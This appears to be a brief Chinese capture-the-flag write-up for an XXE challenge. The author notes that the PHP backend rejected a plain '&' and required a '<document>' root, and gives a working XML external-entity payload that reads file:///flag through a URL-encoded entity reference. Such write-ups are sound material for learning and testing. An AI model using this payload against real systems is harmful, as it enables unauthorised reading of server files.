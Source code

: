 # 了解你的座驾

一眼xxe。但是php怪怪的，不给我用`&`引用外部实体，还必须要`<document>`。于是只能urlencode(用xml entity encode都不行)，补上`<document>`
```xml
<?xml version='1.0'?>
<!DOCTYPE a[
  <!ENTITY flag SYSTEM "file:///flag">
]>
<document>
<name>%26flag;</name>
</document>
```